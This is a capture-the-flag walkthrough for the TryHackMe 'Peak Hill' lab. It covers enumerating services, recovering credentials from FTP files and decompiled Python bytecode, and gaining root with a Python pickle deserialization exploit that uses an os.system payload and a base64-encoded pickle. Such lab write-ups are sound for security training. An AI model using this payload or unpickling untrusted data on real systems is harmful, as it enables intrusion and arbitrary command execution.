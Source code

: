 # [Peak Hill](https://tryhackme.com/room/peakhill)

## Exercises in Python library abuse and some exploitation techniques

# Peak Hill

## Deploy and compromise the machine!

### What is the user flag?

1. Perform network service enumeration to identify available services and their versions

```bash
nmap -sV <TARGET_IP>
```

<img width="724" height="218" alt="SCREEN01" src="https://github.com/user-attachments/assets/df9a0d09-4194-4cc1-9bf8-c9b981152a1d" />

2. Connect to the identified FTP service using anonymous credentials to enumerate accessible files

```bash
ftp <TARGET_IP>
anonymous
get test.txt
get .creds
```

3. Process the `.creds` file content through CyberChef binary decoder. Input the binary content into [CyberChef](https://gchq.github.io/CyberChef/), apply "From Binary" operation, and download the resulting output as a `.dat` file

4. Execute the downloaded `.dat` file using Python's pickle module to extract embedded credentials. The deserialized data reveals user authentication information
   - The extracted credentials are: `gherkin:p1ckl3s_@11_@r0und_th3_w0rld`

```python
import pickle
with open("download.dat", "rb") as file:
    pickle_data = file.read()
    creds = pickle.loads(pickle_data)
    print(creds)
```

<img width="722" height="180" alt="SCREEN02" src="https://github.com/user-attachments/assets/447dbef8-15c7-4ca6-9533-8c08dc113b9e" />

5. Establish SSH connection using the obtained credentials to gain initial system access

```bash
ssh gherkin@<TARGET_IP>
```

6. Transfer and decompile the Python compiled bytecode file to examine the underlying source code structure

```bash
scp gherkin@10.10.157.4:cmd_service.pyc .
sudo pip3 install uncompyle6
uncompyle6 cmd_service.pyc
```

<img width="719" height="250" alt="SCREEN03" src="https://github.com/user-attachments/assets/019d1566-c019-4224-8dde-bc8b20cd4894" />

7. Analyze the decompiled code to identify encoded numerical values representing authentication credentials. Apply cryptographic conversion to decode the values
   - The decoded credentials are: `dill:n3v3r_@_d1ll_m0m3nt`

```python
from Crypto.Util.number import long_to_bytes

username_encoded = 1684630636
password_encoded = 2457564920124666544827225107428488864802762356

username = long_to_bytes(username_encoded).decode('utf-8')
password = long_to_bytes(password_encoded).decode('utf-8')

print(f"Username: {username}")
print(f"Password: {password}")
```

<img width="721" height="52" alt="SCREEN04" src="https://github.com/user-attachments/assets/4329b4d4-1fb1-4568-b752-b4c556770c61" />

8. Connect to the identified network service using the decoded credentials and locate the user flag

```bash
nc <TARGET_IP> 7321
cat /home/dill/user.txt
```

<img width="721" height="159" alt="SCREEN05" src="https://github.com/user-attachments/assets/5a07d29c-c11c-403a-bc6a-7d1d4a5b5cdd" />

---

### What is the root flag?

1. Examine available sudo permissions to identify potential privilege escalation vectors

```bash
sudo -l
```

2. Construct a pickle object containing arbitrary command execution functionality. The payload exploits Python's pickle deserialization to execute system commands with elevated privileges
   - Generated payload: `gASVJgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAtjYXQgL3Jvb3QvKpSFlFKULg==`

```python
#!/usr/bin/env python3
import pickle
import os
import base64

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('cat /root/*', ))
pickle_data = pickle.dumps(EvilPickle())

print(base64.b64encode(pickle_data))
```

3. Execute the malicious pickle payload through the identified sudo-accessible application to achieve root-level command execution and retrieve the root flag

```bash
echo "gASVJgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAtjYXQgL3Jvb3QvKpSFlFKULg==" | sudo /opt/peak_hill_farm/peak_hill_farm
```

<img width="721" height="129" alt="SCREEN07" src="https://github.com/user-attachments/assets/7f245c4f-1c85-4450-b8a6-50488b0bc0ba" />
